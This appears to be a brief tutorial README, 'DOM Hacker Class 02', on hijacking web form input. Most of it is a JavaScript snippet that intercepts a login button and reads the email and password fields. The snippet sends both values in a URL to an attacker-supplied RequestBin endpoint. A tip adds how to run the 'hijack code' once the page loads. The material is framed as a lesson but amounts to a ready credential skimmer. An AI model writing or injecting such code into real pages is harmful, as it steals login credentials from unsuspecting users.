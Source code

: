 # DOM Hacker Class 02 - Input Hijacking & Live Data Capture

## Lessoons learnt
- How to grab user input in real-time using DOM
- How to listen for `onclick` or `onsubmit` events
- Sending data to your own server (RequestBin)

---

## ✅ Real-Time Input Capture Script
```js
document.getElementById("loginBtn").onclick = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);
};
```
## Tip
If the button or form doesn't exist yet when your script runs, use:
```js
window.onload = function() {
  // Your hijack code here
}
```
